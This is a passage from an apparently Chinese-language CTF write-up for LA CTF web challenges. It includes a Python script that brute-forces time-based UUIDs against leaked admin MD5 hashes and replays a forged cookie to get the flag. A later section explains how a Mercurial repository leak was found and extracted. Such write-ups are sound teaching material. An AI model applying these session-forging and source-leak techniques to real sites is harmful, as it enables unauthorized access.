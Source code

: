 ```python
req2 = requests.post("https://uuid-hell.lac.tf/createadmin")
req3 = requests.get("https://uuid-hell.lac.tf/")
res = req3.text.split("<strong>")
USER2_UUID = re.findall(uuid_pat, res[0])[0]
TARGET_HASHES = set(re.findall(md5sum_pat, res[1]))

user_uuid1 = uuid.UUID(USER1_UUID)
user_uuid2 = uuid.UUID(USER2_UUID)
print(user_uuid1.fields)
print(user_uuid2.fields)

i = 1
while user_uuid1.fields[0] < user_uuid2.fields[0]:
    gen_uuid = uuid.UUID(fields=(user_uuid1.fields[0] + i, user_uuid1.fields[1], user_uuid1.fields[2], user_uuid1.fields[3], user_uuid1.fields[4], user_uuid1.fields[5]))
    if hashlib.md5(b"admin" + str(gen_uuid).encode()).hexdigest() in TARGET_HASHES:
        print(gen_uuid)
        flag = requests.get("https://uuid-hell.lac.tf/", cookies={"id": str(gen_uuid)})
        print(flag.text) 
        break
    i += 1
```

#### my-chemical-romance

**题目描述**

When I was... a young boy... I made a "My Chemical Romance" fanpage!

my-chemical-romance.lac.tf

**题目分析**

> 这个题很傻杯，出题人是弄了一个和 git 差不多的版本控制系统让大家恢复过去的版本，太抽象了完全无用。

打开页面是毫无头绪的，无输入点、无上传点，这时候就需要抓包看看：

![](https://i.imgur.com/HqlMW9t.png)

很明显响应头有个奇怪的字段：Source-Control-Management-Type: Mercurial-SCM

谷歌一下：

![](https://i.imgur.com/FXlj51z.png)

好的，这是一个跨平台的分布式版本控制软件，这不免让我们想到 git，而 CTF 中 git 常用于 git 泄露，所以是否有 Mercurial 泄露呢？

答案是有的，所以我们可以从服务器下载文件。这里直接用官方给出的[工具](https://github.com/p0dalirius/mercurial-scm-extract)，随后的操作就是和 git 泄露常见考点一样，恢复之前的 commit 啥的。

#### 85\_reasons\_why

**题目描述**

If you wanna catch up on ALL the campus news, check out my new blog. It even has a reverse image search feature!
